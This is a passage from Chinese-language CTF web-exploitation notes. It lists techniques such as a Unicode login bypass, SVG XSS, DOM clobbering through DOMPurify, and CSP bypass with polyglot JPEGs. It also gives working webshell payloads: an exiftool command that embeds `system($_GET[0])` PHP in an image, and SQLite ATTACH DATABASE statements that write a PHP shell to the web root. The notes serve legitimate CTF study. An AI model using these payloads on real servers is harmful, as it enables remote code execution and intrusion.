 可以用`?username=Àdmin&password=admin`绕过。这里使用的`À`会被标准化成A，不影响查询结果，但可以绕过正则。另外，这道题还告诉我`$_SERVER['REMOTE_ADDR']!=="127.0.0.1"`是不可绕过的。

146. 上传图片的xss挑战可以考虑上传svg类型（svg图片存在`<script>`标签，可以插入xss代码）。
147. 如果服务器返回的报文没有`Content-Type`字段，浏览器就需要强制解析返回的内容，借此可以执行一些恶意代码（比如上传图片，但是内容是xss。如果此时服务器不返回images/png的`Content-Type`，浏览器就要解析图片，执行xss）。对于apache服务器，当文件名不存在后缀时，它不会返回`Content-Type`字段。这些文件名有`.png`,`.jpg`甚至`...png`（任意数量的点）。
148. [DomPurify.sanitize](https://cloud.tencent.com/developer/article/1825938)过滤下的xss。sanitize只允许创建`[div,a,span,p]`html标签和属性`[style,id,name,href]`，这种情况下在没有用户交互的前提下是不可能成功执行有用的xss的。不过既然开放了一些标签，可以考虑[dom clobbering](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)。例如在插入`<p id='test'>`这个标签后，在js里可以通过`test`或者`window.test`来获取到它。这意味着：

```js
if(user.isAdmin){
    //期望执行逻辑
}
```

这样的代码可以通过创建`"<a/id='user'><a/id='user'/name=isAdmin>"@g.com`来覆盖原本的`user.isAdmin`，使其进入if语句（这里payload的`/`和`@g.com`是因为题目要求输入内容为邮箱，加入`/`代替空格使其符合邮箱格式）。注意无需给其赋值，让它存在并覆盖原来的就行。

145. 绕过getimagesize（将js代码插入有效图片）+绕过csp `script-src 'self'`。可直接使用这篇[文章](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)的poc图片，hex editor打开图片找到`alert`代码即可将其换为任意其他js代码。
146. php的include函数包含木马时，木马文件的后缀名无需是php，jpg等也行，只要图片文件里包含php木马代码。可以考虑用exiftool把木马写到注释里：`exiftool img.jpg -Comment="<?=system(\$_GET[0]);die();?>"`。
147. php [realpath](https://www.php.net/manual/zh/function.realpath.php)函数在参数路径开头为`file:///`时，会返回空字符串。
148. sqlite利用查询语句写入php shell文件。要注意ATTACH DATABASE的路径需要可读可写。

```sql
ATTACH DATABASE '/var/www/html/socengexpasdf.php' AS socengexpasdf;
CREATE TABLE socengexpasdf.pwn (dataz text);
INSERT INTO socengexpasdf.pwn VALUES ('<? system($_GET["cmd"]); ?>');
```

[ATTACH DATABASE](https://www.runoob.com/sqlite/sqlite-attach-database.html)附加数据库`/var/www/html/socengexpasdf.php`，因为该文件不存在，故会在/var/www/html/下创建一个socengexpasdf.php，别名为socengexpasdf，下面的语句都是基于别名来操作的。[CREATE TABLE](https://www.runoob.com/sqlite/sqlite-create-table.html)在刚才指定的socengexpasdf数据库下创建一个名为pwn的表，(dataz text)指定数据类型。[INSERT INTO](https://www.runoob.com/sqlite/sqlite-insert.html)插入shell代码。

149. 根据查询结果重定向不同的url的设计加上不安全的cookie设置（SameSite: None;Secure: false:）可能有[XS-leak](https://xsleaks.dev/)。例题:[secrets](../../../../CTF/HackTM%20CTF/Web/secrets.md)，此题的预期解为[Cross-Origin Redirects and CSP Violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects)，非预期解则是利用了chrome的url大小最大为2MB的限制。
150. 利用sql [like](https://www.runoob.com/sql/sql-like.html)语句爆破code+利用BeautifulSoup与浏览器解析html的区别绕过xss过滤+利用www.youtube.com的[JSONP](https://www.zhihu.com/question/19966531)绕过CSP限制。例题:[Crocodilu](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu)。题目要求激活用户需要输入code，但code是4位随机数字且一个邮箱账号因为[redis](https://zhuanlan.zhihu.com/p/51608696)的限制只允许爆破一次。漏洞代码为下面的sql语句：

```sql
SELECT * FROM users WHERE email LIKE "email" AND code LIKE "code"
```

且邮箱验证代码使用了python的re.match：

- If zero or more characters at the beginning of string match the regular expression pattern, return a corresponding match object. Return None if the string does not match the pattern; note that this is different from a zero-length match. 

